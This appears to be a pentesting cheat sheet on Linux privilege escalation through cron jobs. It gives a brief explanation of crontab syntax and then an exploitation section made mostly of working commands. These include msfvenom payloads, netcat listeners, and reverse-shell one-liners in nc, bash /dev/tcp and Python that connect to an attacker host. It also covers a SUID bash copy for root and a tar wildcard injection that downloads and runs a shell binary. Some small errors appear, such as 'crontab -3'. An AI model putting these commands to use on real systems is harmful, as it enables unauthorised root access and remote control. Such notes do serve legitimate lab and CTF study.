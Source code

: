 # Crontab
***

- Cron is a background service that runs continuously and checks crontab files for scheduled jobs.
- Crontabs are configuration files that specifies the schedule for running cron jobs. Each user on a Linux system can have their own crontab.
```sh
# location
ll /etc/crontab

# Edit crontabs
crontab -3
```
- Cronjobs are commands that users want to automate at specified times or intervals.

The cron daemon periodically checks the crontab file to determine if any scheduled cronjobs need to be executed.

## Cronjobs Format
A crontab is essentially a specialized file format that the 'cron' process recognizes, allowing it to execute each line sequentially. Crontabs are structured with six specific values:
```
'#' m h dom mon dow user  command
  '#'					ID
  m						Minute
  h						Hour
  dom					Day of the month
  mon					Month
  dow					Day of the week
  user				User running the command
  command		  Command should be run
```

## Exploitation
### File Permissions
If the attacker manages to overwrite one of the currently running jobs, it can result in the execution of a shell.
#### Example: in a crontabs there is
```
5  *    * * * root    /home/user4/Desktop/task.sh
```
- If you prefer not to specify a value for that particular field, simply use an asterisk (*) instead.

##### Attacker Machine
- Method 1: Msfvenom
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=attackerIP lport=7777 R
  # R means raw output
```
- Set up a netcat listener
```sh
rlwrap nc -nlvp 7777
```

##### Target Machine
Method 1: Overwrite task.sh with the output of msfvenom
```sh
echo 'mkfifo /tmp/eqfjhi; nc AttackerIP 7777 0</tmp/eqfjhi | /bin/sh >/tmp/eqfjhi 2>&1; rm /tmp/eqfjhi' > task.sh
```

- Method 2: Replace task.sh with shell contents
```
#!/bin/bash
bash -i >& /dev/tcp/attackerIP/7777 0>&1
```

- Method 3: Replace task.sh with Python3 contents
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("attackerIP",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'
```

When task.sh is executed, it will establish a shell connection to the attacker's machine.

### PATH Environment Variable
If the PATH variable starts with /home/<username>

- Generate a file named task.sh, and populate it with the following content:
```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
- Make task.sh executable
```sh
chmod +x task.sh
```

- After executing task.sh, you will find rootbash in the /tmp directory. Run it with the -p flag.
```sh
/tmp/rootbash -p
```

### Wildcards
If crontabs executes a script that utilizes tar with wildcards like *, we can exploit this situation.

#### Attacker Machine
- Msfvenom
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attackerIP LPORT=7777 -f elf -o shell.elf
```
- Create http server
```sh
python3 -m http.server 9999
```
- set up a netcat listener
```sh
rlwrap nc -lnvp 7777
```

#### Target Machine
- Get shell.elf & make it executable
```sh
wget http://attackerIP:9999/shell.elf
chmod +x shell.elf
```
- Create the following
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
Tar provides command-line options that enable the execution of additional commands as part of a checkpoint feature. When the tar command is executed within a cron job, the wildcard (*) will expand to include these files. As their filenames match valid tar command-line options, tar will interpret them as such and treat them as command-line options rather than filenames, and you get a shell on attacker machine.
